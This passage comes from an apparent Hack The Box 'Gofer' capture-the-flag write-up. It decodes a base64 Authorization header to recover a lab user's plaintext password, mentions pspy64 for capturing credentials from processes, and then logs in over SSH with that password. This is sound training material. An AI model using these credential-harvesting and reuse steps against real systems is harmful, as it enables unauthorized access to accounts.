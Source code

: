 ### **<strong><font color="DarkKhaki">tbuckley credentials</font></strong>**

* The **Authorization** header contains `tbuckley`'s credentials, as can be seen below:

```bash
echo 'dGJ1Y2tsZXk6b29QNGRpZXRpZTNvX2hxdWFldGk=' | base64 --decode
tbuckley:ooP4dietie3o_hquaeti
```

> **NOTE**: *You can also get `tbuckley`'s credentials by simply monitoring processes using [pspy64](https://github.com/DominicBreuker/pspy)*

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-gofer/2023-08-01 23_52_39-KaliLinuxOS - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>tbuckley credentials via pspy64</i></center>
<br/>


### **<strong><font color="DarkKhaki">SSH in as tbuckley</font></strong>**

Now, we can SSH into the target system as `tbuckley`: <br/>

```bash
$ ssh tbuckey@gofer.htb
Enter tbuckey@gofer.htb's password: ooP4dietie3o_hquaeti
```

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-gofer/2023-08-01 23_53_58-KaliLinuxOS - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>SSH as tbuckley</i></center>
<br/>
